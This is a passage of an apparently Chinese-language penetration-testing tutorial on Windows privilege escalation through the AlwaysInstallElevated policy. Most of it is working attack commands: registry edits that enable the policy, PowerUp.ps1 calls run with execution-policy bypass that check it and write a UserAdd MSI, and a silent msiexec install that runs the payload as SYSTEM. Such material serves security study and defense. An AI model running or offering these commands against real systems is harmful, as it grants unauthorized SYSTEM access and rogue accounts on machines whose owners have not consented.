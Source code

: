![image-20241030164725741](./assets/image-20241030164725741.png)

```cmd
# 或者使用命令行启用
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

-  `安装msi文件`

- 通过命令行调用msiexec安装msi文件，msi文件内包含要执行的Payload，Payload将会以System权限执行

```bash
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;Get-RegistryAlwaysInstallElevated}"
```

- `导出msi文件`

```bash
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;WriteUserAddMSI}"
```

- `命令执行`

```cmd
msiexec /q /i UserAdd.msi

/i  安装操作
/q	隐藏安装界面
```
